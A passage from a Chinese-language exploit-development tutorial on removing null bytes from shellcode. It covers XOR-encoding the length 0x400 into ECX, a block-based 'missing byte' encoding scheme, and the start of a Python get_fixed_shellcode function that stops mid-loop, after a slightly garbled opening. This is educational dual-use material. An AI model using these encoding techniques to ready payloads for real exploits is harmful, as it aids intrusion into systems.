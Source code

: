 MOV ECX,XOR ECX,

我们可以只是使用：

MOV ECX,

但是这将不会生成null字节。而实际上，shellcode的长度为0x400，我们将会看到该指令

B9 00 04 00 00 MOV ECX, 400h

存在3个null字节。

为了避免存在该问题，我们选择使用一个不会出现在`00000400h`中的`non-null`字节。我们选择使用`0x01`.现在我们计算如下：

```
<xor value 1 for shellcode len> = 00000400h xor 01010101 = 01010501h
<xor value 2 for shellcode len> = 01010101h

```

在指令中使用`<xor value 1 for shellcode len>` 和 `<xor value 2 for shellcode len>`对应的操作码都不存在`null`字节，并且在执行`xor`操作后，生成的原始值为`400h`。

对应的两条指令将会是：

```
B9 01 05 01 01        MOV ECX, 01010501h
81 F1 01 01 01 01     XOR ECX, 01010101h

```

通过函数 `get_xor_values`来计算`xor`值。

正如以上提到过的，该代码很容易理解：通过逐字节检查`shellcode`来用特定的值（`0x14`，在之前的范例中）覆写`null`字节。

#### 从shellcode中移除null字节(II)

如上的方法会失败，因为我们不能找到从不在`shellcode`中出现过的字节值。如果失败了，我们需要使用`get_fixed_shellcode`，但是它更为复杂。

方法是将`shellcode`分为多个`254`字节的块。注意每个块必须存在一个 “`missing byte`”，因为一个字节可以具有`255`个非0值。我们可以对每个块进行逐个处理来为每个块选择`missing byte`。但是这样做可能效率不高，因为对于一段具有`254*N`个字节的`shellcode`来说，我们需要在`shellcode（`存在识别`missing bytes`的`decoder`）被处理之前或之后存储N个 “`missing bytes`”。最有效的做法是，为尽可能多个254字节的块使用相同的“`missing bytes`”。我们从`shellcode`的起始部分开始对块进行处理，直到处理完最后一个块。最后，我们会有`<missing_byte, num_blocks>`配对的列表：

```
[(missing_byte1, num_blocks1), (missing_byte2, num_blocks2), ...]

```

我已决定将`num_blocksX`限制为一个单一字节，因此，`num_blocksX` 的值会在1到255之间。

此处是`get_fixed_shellcode`部分，该部分将`shellcode`分为多个块。

```
def get_fixed_shellcode(shellcode):
    '''
    Returns a version of shellcode without null bytes. This version divides
    the shellcode into multiple blocks and should be used only if
    get_fixed_shellcode_single_block() doesn't work with this shellcode.
    '''
 
    # The format of bytes_blocks is
    #   [missing_byte1, number_of_blocks1,
    #    missing_byte2, number_of_blocks2, ...]
    # where missing_byteX is the value used to overwrite the null bytes in the
    # shellcode, while number_of_blocksX is the number of 254-byte blocks where
    # to use the corresponding missing_byteX.
    bytes_blocks = []
    shellcode_len = len(shellcode)
    i = 0
    while i < shellcode_len:
        num_blocks = 0
        missing_bytes = list(range(1, 256))
```
